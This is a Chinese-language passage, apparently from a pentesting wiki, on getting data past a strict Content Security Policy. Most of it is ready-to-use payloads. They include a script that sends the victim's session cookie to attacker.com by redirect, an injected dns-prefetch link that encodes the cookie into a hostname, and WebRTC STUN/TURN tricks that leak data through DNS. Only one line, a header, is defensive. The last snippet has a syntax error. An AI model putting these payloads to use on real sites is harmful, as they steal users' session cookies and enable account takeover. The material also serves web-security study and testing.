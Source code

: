 ## CSP Exfiltration Bypasses

如果存在严格的CSP，不允许您**与外部服务器交互**，则始终可以做一些事情来提取信息。

### Location

您可以仅更新位置以将秘密信息发送到攻击者的服务器：
```javascript
var sessionid = document.cookie.split('=')[1]+".";
document.location = "https://attacker.com/?" + sessionid;
```
### Meta tag

您可以通过注入元标签进行重定向（这只是重定向，不会泄露内容）
```html
<meta http-equiv="refresh" content="1; http://attacker.com">
```
### DNS Prefetch

为了更快地加载页面，浏览器将预先解析主机名为IP地址并将其缓存以供后续使用。\
您可以通过以下方式指示浏览器预解析主机名：`<link rel="dns-prefetch" href="something.com">`

您可以利用这种行为来**通过DNS请求外泄敏感信息**：
```javascript
var sessionid = document.cookie.split('=')[1]+".";
var body = document.getElementsByTagName('body')[0];
body.innerHTML = body.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + sessionid + "attacker.ch\">";
```
另一种方法：
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```
为了避免这种情况发生，服务器可以发送HTTP头：
```
X-DNS-Prefetch-Control: off
```
{% hint style="info" %}
显然，这种技术在无头浏览器（机器人）中不起作用
{% endhint %}

### WebRTC

在几个页面上你可以看到**WebRTC不检查CSP的`connect-src`策略**。

实际上，你可以通过一个_DNS请求_来_泄露_信息。看看这段代码：
```javascript
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```
另一个选项：
```javascript
var pc = new RTCPeerConnection({
"iceServers":[
{"urls":[
"turn:74.125.140.127:19305?transport=udp"
],"username":"_all_your_data_belongs_to_us",
"credential":"."
}]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```
